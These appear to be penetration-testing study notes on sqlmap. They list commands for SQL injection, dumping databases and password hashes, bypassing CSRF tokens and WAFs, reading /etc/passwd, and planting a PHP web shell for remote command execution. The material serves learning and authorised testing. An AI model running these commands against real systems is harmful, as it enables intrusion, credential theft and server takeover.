 Penetration testing tool to detect and exploit SQL injection vulnerabilities

---

## Types of Injection Vulnerabilities 
The default SQL injection techniques used are described by the acronym BEUSTQ
- B: Boolean-based blind
- E: Error-based
- U: Union query-based
- S: Stacked queries
- T: Time-based blind
- Q: Inline queries

---
## Basic Usage
```shell
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch

# More Aggressive
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch --level 5 --risk 3
```

Use the `copy as cURL` right click option from the networking tab in inspector and replace with sqlmap
```shell
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

POST data can be added with the `--data` flag and `--method POST`

Alternatively, you can capture a request using [[BurpSuite]] and copy into a file which can be read with the `-r` flag

Use the `--cookie` flag to set the session cookie 
```shell
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```
Or with a `-h` header option
```shell
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

`--mobile` and `--random-agent` can be used to change the agent header

Specify the injection mark with a `*` Ex: 
>--cookie="id=1*"

SQLMap also supports JSON formatted (e.g. `{"id":1}`) and XML formatted (e.g. `<element><id>1</id></element>`) HTTP requests.

`-t` flag will dump all the traffic data from the request and response to designated file

`--proxy` can be used to analyze traffic with [[BurpSuite]]

---
## Attack Tuning
Every payload sent to the target consists of:

-   vector (e.g., `UNION ALL SELECT 1,2,VERSION()`): central part of the payload, carrying the useful SQL code to be executed at the target.

-   boundaries (e.g. `'<vector>-- -`): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement.

### Prefix/Suffix
Some special prefix and suffix values may be required in rare cases 
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

### Level/Risk
When bigger sets of boundaries and vectors are required:

-   The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).

-   The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).

### Additional Fine Tuning
`--code=200` will filter all 200 status codes returned by SQLi
`--titles` will detect a title changes in the `<title>` html tag
`--string=success` can be used to detect if a string is present in response
`--text-only` limits detection to only visible HTML content
`--technique=BEU` will limit SQLi payloads to these techniques
`--union-cols=17` or `--union-char='a'` can be used to specify vulnerable columns
`--union-from=users` can be used to specify appendix at the end of a UNION query
`-T tablename` can be used to specify which table data to dump

## DB Enumeration
`--banner` will use the VERSION() query
`--current-user` will use the CURRENT_USER() query
`--hostname` will diplay the hostname of the vulnerable target
`--current-db` will display the current database name
`--is-dba` will show if current user is a database admin
`--password-hashes` will dump only password hashes found in db

```shell
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

`--tables` will enumerate tables specified with `-D dbname`
`--dump` will display table data specified by `-T tablename` and columns by `-C a,b` 
and rows by `--start=2 --stop=3` and further specified by `--where="name LIKE 'f%'"`

`--dump-all` will dump all the content from all the databases
`--exclude-sysdbs` will exclude content from system databases

`--schema` will retrieve the structure of all the tables
`--search -T user` will try to find tables containing the string 'user' 
`--search -C pass` will try to find columns containing the string 'pass'
`--passwords` self explanatory

**`--all --batch` will do a complete enumeration**

## Bypassing Web Application Protections
### Anti-CSRF Token Bypass
```shell
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

### Unique Value Bypass
```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp
```

### Calculated Parameter Bypass
```shell
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch
```

### Proxies
`--proxy="socks4://177.39.187.70:33283"`
`--proxy-file`
By using switch `--tor`, there should be a `SOCKS4` proxy in port 9050 or 9150
Use `--check-tor` to test

User agent bypass `--random-agent`

### WAF/IPS Bypass
Tamper scripts are python scripts writeen for modifying reauests before being sent
They can be chained this way `--tamper=between,randomcase`
To get a whole list of tamper scripts run `--list-tampers`
`--chunked` can be used when SQL keywords are blacklisted

## OS Exploitation
SQLMap has the ability to read/write files on the target machine and allow for RCE

### File Read/Write
In MySql, to read local files, the DB user must have the privilege to `LOAD DATA` and `INSERT`, to be able to load the content of a file to a table and then reading that table.
-   `LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`

`--is-dba` can be used to figure out if we have read/write privileges

To read files:
```shell
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

To write files:
```shell
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

The PHP shell file: 
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Sending commands to the cmd shell:
```shell
curl http://www.example.com/shell.php?cmd=ls+-la
```

## RCE
SQLMap can directly create an SQL shell using xp_cmdshell
```shell
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

If this returns NO OUTPUT, sometimes switching injection techniques may be required with `--technique=E`

